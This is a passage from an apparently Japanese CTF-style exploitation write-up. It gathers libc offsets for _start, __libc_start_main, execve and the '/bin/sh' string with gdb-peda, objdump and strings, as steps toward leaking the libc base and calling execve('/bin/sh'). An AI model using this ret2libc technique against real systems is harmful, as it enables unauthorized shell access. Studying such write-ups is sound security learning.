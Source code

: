 ```bash-statement
$
```

```bash-statement
gdb-peda$ print _start
$1 = {<text variable, no debug info>} 0x400540 <_start>
gdb-peda$
```

```python
addr_start = 0x400540
```

### addr_libc_start_main
start_main関数のlibc上でのアドレス。
GOTアドレスからリークさせたstart_main関数がロードされているアドレスaddr_start_mainからこのアドレスを引くことでlibcがロードされているアドレスaddr_offsetを算出することができる。

調べ方は`objdump -d libc.so.6`して出てきたコード上のアドレスを探すだけ。

```bash-statement
$ objdump -d libc.so.6 | grep start_main
0000000000020740 <__libc_start_main@@GLIBC_2.2.5>:
```

```python
addr_libc_start_main = 0x0000000000020740
```

### addr_libc_execve
execveのlibc上でのアドレス。
このアドレスとlibcがロードされているアドレスを足せばexecveがロードされているアドレスaddr_execveが分かるのでexecve("/bin/sh")が実行できる。

調べ方は`objdump -d libc.so.6`して出てきたコード上のアドレスを探すだけ。

```bash-statement
$ objdump -d libc.so.6 | grep execve
00000000000cc770 <execve@@GLIBC_2.2.5>:
```

```python
addr_libc_execve = 0x00000000000cc770
```


### addr_libc_binsh

libc上で`/bin/sh`が書かれているアドレス。
最終的にlibcがロードされているアドレスaddr_offsetとこのアドレスを足して`/bin/sh`がロードされているアドレスaddr_binshを算出し、execveに渡す引数として利用する。

stringsコマンドで調べることができる。

```bash-statement
$ strings -t x libc.so.6 | grep "/bin/sh"
 18cd57 /bin/sh
$
```
